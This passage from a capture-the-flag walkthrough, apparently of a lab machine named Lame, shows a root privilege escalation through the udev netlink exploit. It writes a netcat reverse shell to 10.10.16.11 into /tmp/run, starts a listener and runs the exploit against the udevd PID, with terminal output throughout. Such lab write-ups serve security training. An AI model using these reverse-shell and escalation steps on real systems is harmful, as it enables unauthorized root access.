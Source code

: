 We need to do two things:
- Figure out the PID of the udevd netlink socket
- Create a run file in /tmp and add a reverse shell to it. Since any payload in that file will run as root, we’ll get a privileged reverse shell.

To get the PID of the udevd process, run the following command.


```output
daemon@lame:/tmp$ ps -aux | grep dev 
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root      2742  0.0  0.1   2240   756 ?        S<s  03:22   0:00 /sbin/udevd --daemon
snmp      5462  0.0  0.7   8488  3764 ?        S    03:22   0:04 /usr/sbin/snmpd -Lsd -Lf /dev/null -u snmp -I -smux -p /var/run/snmpd.pid 127.0.0.1
daemon   11599  0.0  0.1   1716   516 ?        SN   13:10   0:00 script /dev/null -c bash
daemon   11600  0.0  0.0   1720   408 ?        RN   13:10   0:00 script /dev/null -c bash
daemon   11714  0.0  0.1   1784   532 pts/1    RN+  13:31   0:00 grep dev
daemon@lame:/tmp$ 
```

```output
daemon@lame:/tmp$ cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
ddf3f800 0   0      00000000 0        0        00000000 2
df722400 4   0      00000000 0        0        00000000 2
dd350800 7   0      00000000 0        0        00000000 2
dd841600 9   0      00000000 0        0        00000000 2
dd849400 10  0      00000000 0        0        00000000 2
ddf3fc00 15  0      00000000 0        0        00000000 2
df40b800 15  2741   00000001 0        0        00000000 2
ddde7800 16  0      00000000 0        0        00000000 2
df457000 18  0      00000000 0        0        00000000 2
daemon@lame:/tmp$ 
```

Next, create a **run** file in /tmp and add a reverse shell to it.

```output
daemon@lame:/tmp$ echo '#!/bin/bash' > run
daemon@lame:/tmp$ echo 'nc -e /bin/bash 10.10.16.11 9001' >> run
daemon@lame:/tmp$ cat run
#!/bin/bash
nc -e /bin/bash 10.10.16.11 9001
daemon@lame:/tmp$ 
```

Set up a listener on your attack machine to receive the reverse shell.

`nc -nlvp 9001`

Run the exploit on the attack machine. As mentioned in the instructions, the exploit takes the PID of the udevd netlink socket as an argument.

`daemon@lame:/tmp$ ./8572 2741`

```output
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

